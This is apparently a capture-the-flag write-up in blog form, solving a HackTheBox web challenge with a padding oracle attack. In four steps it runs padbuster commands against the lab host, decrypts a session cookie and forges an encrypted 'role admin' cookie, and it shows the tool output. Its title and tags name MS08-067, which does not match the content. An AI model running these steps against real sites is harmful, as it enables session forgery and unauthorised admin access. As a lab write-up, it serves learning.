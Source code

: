 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```



STEP 1
======
`padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0

*** Response Analysis Complete ***

The following response signatures were returned:


    ID# Freq Status Length Location
    
    1 256 302 0 profile.php


STEP 2
======

`padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0

** Finished ***

    [+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}

    [+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202

    [+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=


STEP 3
======
`padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"

** Finished ***

    [+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.




Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



